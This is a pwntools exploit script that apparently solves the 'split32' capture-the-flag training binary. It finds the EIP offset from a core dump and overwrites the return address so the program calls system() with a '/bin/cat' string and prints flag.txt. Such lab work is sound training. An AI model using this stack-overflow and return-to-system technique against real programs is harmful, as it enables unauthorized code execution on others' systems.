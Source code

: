 ```python
# Specify your GDB script here for debugging
gdbscript = '''
init-pwndbg
continue
'''.format(**locals())

# Set up pwntools for the correct architecture
exe = './split32'
# This will automatically get context arch, bits, os etc
elf = context.binary = ELF(exe, checksec=False)
# Enable verbose logging so we can see exactly what is being sent (info/debug)
context.log_level = 'info'
# Delete core files after finished
context.delete_corefiles = True

# ===========================================================
#                    EXPLOIT GOES HERE
# ===========================================================

io = start()

# Locate the functions/strings we need
system_addr = elf.symbols['system']
bincat_addr = next(elf.search(b'/bin/cat'))

# Print out the target address
info("%#x system", system_addr)
info("%#x /bin/cat", bincat_addr)

# We will send a 'cyclic' pattern which overwrites the return address on the stack
payload = cyclic(100)

# PWN
io.sendlineafter('>', payload)

# Wait for the process to crash
io.wait()

# Open up the corefile
core = io.corefile

# Print out the address of EIP at the time of crashing
eip_value = core.eip
eip_offset = cyclic_find(eip_value)
info('located EIP offset at {a}'.format(a=eip_offset))

# Craft a new payload which puts system('/bin/cat flag.txt') at correct offset we have used fit to set the offeset.
payload = fit({
    eip_offset: [elf.symbols.system,
                 0x0, # overwriting the return pointer with any 4 bytes
                 bincat_addr]
}
)

# Send the payload to a new copy of the process
io = start()
io.sendline(payload)
io.recv()

# Get our flag!
flag = io.recvline()
success(flag)
```